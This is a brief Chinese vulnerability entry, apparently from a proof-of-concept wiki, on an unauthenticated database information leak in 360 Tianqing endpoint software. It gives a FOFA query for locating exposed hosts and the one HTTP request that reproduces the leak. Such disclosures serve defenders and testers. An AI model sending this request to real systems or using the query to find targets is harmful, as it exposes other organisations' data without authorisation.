


# 天擎 数据库信息泄露漏洞

## 漏洞描述

天擎 存在未授权越权访问，造成敏感信息泄露

## 漏洞影响

> [!NOTE]
>
> 天擎

## FOFA

> [!NOTE]
>
> title="360新天擎"

## 漏洞复现

```
GET /api/dbstat/gettablessize HTTP/1.1
```



## Goby & POC

> [!NOTE]
>
> 已上传 https://github.com/PeiQi0/PeiQi-WIKI-POC Goby & POC 目录中
>
> 360_Tianqing_database_information_disclosure

